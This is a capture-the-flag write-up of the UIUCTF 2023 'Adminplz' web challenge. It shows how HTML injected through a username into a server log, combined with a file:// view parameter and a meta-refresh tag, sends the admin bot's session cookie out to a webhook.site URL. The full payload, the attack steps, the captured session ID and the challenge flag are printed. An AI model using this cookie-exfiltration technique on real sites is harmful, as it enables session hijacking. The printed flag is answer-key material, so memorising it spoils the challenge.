# Adminplz (UIUCTF 2023)

**Challenge category**: Web<br>
**Challenge description**: "your daily dose of ☕"<br>
**Challenge points**: 322<br>
**CTF date**: sab, 01 Lug. 2023, 00:00 UTC — lun, 03 Lug. 2023, 00:00 UTC<br>

## Context

This challenge is about a Log Injection leading to exfiltration of cookies.

## Exploring the challenge

![1](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/5ab67534-cd47-4328-bd60-73ab33e3e6d0)

![4](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/d673a902-6b96-49e5-97e5-8c8689e861cd)


![2](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/be43b485-a783-4e69-90d9-553995228101)

The only thing we can do on this page is logging in and submitting an url to the admin bot. If we access to the <code>/admin</code> endpoint, we'll get an error:

![3](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/e5169f48-6c01-4e8a-9ee9-ec89a89ce823)

Let's have a look at the Java code.
```javascript
const { chromium } = require('playwright-chromium');
const URL = process.argv[2];

(async () => {
    console.log('running admin bot...')
    const browser = await chromium.launch()
    const context = await browser.newContext()
    context.setDefaultTimeout(2000)
    const page = await context.newPage()
    await page.goto('http://127.0.0.1:8080/')

    // login
    await page.type('input[name=username]', 'admin')
    await page.type('input[name=password]', process.env.ADMIN_PASSWORD)
    await Promise.all([
      page.click('input[type=submit]'),
      page.waitForNavigation({
        waitUntil: 'networkidle0',
      }),
    ]);
    // visit url
    console.log("visiting target...");
    await page.goto(URL);
    await page.waitForTimeout(900000); // 15 min
    await browser.close()
    console.log('Success!')
})();
```
For the bot, server is at 127.0.0.1 on port 8080. It logs to the server and then visit the submitted url.
```java
@Component
public class CSP implements Filter {
    @Override
    public void doFilter(ServletRequest request,
                         ServletResponse response,
                         FilterChain chain) throws ServletException, IOException {
        ((HttpServletResponse) response).addHeader("Content-Security-Policy", "default-src 'none';");
        chain.doFilter(request, response);
    }
}

```
CSP is set to <code>default-src 'none'</code>. A very strict policy that prevents any external resource to be loaded and any script to be executed, thus no XSS.
```java
@PostMapping(path = "/login", consumes = {MediaType.APPLICATION_FORM_URLENCODED_VALUE})
    public String login(HttpSession session, User user) {
        if (user.getUsername().equals("admin") && !user.getPassword().equals(ADMIN_PASSWORD)) {
            return "not allowed";
        }
        session.setAttribute("user", user);
        return "logged in";
    }
```
We can't login as admin as we don't know the password, but we can login as any user, our username will be set accordingly (password isn't check).
```java
@GetMapping("/admin")
    public Resource admin(HttpServletRequest req, HttpSession session, @RequestParam String view) {
        if (isLoggedIn(session) && view.contains("flag")) {
            logger.warn("user {} [{}] attempted to access restricted view", ((User) session.getAttribute("user")).getUsername(), session.getId());
        }
        return app.getResource(isAdmin(req, session) ? view : "error.html");
    }
```
Here, two things: our username could be written inside a log (<code>/var/log/adminplz/latest.log</code>) without any sanitizing process and 
a resource specified by a user controllable GET parameter (<code>view</code>) is returned to the admin (if the endpoint is accessed by the admin).
<code>accessResource()</code> method accepts file names and urls (of any protocol).<br>
There is no possibility for an XSS, nor a possibility to inject anything on any page. The only file where we can inject something, if we are logged and 
the <code>view</code> parameter contains the "flag" substring, is <code>/var/log/adminplz/latest.log</code>. This file can be rendered as HTML by the bot's browser.
Submitting an url like <code>http://127.0.0.1:8080/admin?view=file:///var/log/adminplz/latest.log</code> will induce the admin bot to view the log file as an HTML page.
But, what we can do? We can't trigger XSS nor load any external resource. We can't get the /flag.html content. Can we steal cookies even without XSS? Yes.
If we look at the code above (the admin one), we can that not only the username is injected inside the log, but the session ID too. So, if admin visits a url 
like <code>http://127.0.0.1:8080/admin?view=file:///flag.html</code>, its session ID (authentication cookie) is written into the log. If we can exfiltrate this, 
we can authenticate us as admin to the server. In the log there is only text, but we can inject, through the username, HTML code.
How can we exfiltrate the admin cookie with a very strict CSP policy? With a <code>meta</code> tag that redirects the client to an URL that 
incorporate part of the log's content (admin's cookie included):
```html
<html><head><meta http-equiv="refresh" content='0; url=https://webhook.site/a2e16dd2-9690-4246-8c58-abf303c42a4b?exf=

...Log content...

'></head>....
```

## Attack
Six steps:
+ Login with username <code><html><head><meta http-equiv="refresh" content='0; url=https://webhook.site/a2e16dd2-9690-4246-8c58-abf303c42a4b?exf=</code>.
+ Visit <code>https://instance_server/admin?view=file:///flag.html</code> (it's important that the <code>view</code> parameter contains a valid path (existent file),
because otherwise an error will be triggered and the log's content resetted, deleting our previous input).
+ Submit the url <code>https://127.0.0.1:8080/admin?view=file:///flag.html</code> to the admin bot.
+ Login with username <code><html>'></head></code>.
+ Visit <code>https://instance_server/admin?view=file:///flag.html</code>.
+ Submit the url <code>http://127.0.0.1:8080/admin?view=file:///var/log/adminplz/latest.log</code> to the admin bot.

After executing these steps, our server will receive a GET request with all the exfiltrated content inside a query parameter.

![adminplz_cookie](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/de9a0540-c05e-4747-9917-06997257a46a)


Got admin's session ID (<code>36D142A1763851F1DE47DEB881FC2A3A</code>)!
Now we have to use this cookie when accessing the <code>/admin</code> endpoint. In order to access the flag file we have to set the <code>view</code>
parameter to <code>file:///flag.html.</code>, so: <code>https://instance_server/admin?view=file:///flag.html</code>. By Visiting this link we'll get the flag!

![adminplz_flag](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/888aa3a9-0937-4f36-b173-8a7777136c59)

Flag is <code>uiuctf{adminplz_c4n_1_h4v3_s0M3_co0k13s?_b5eab1cc61c26f07e63af7f8}</code>.

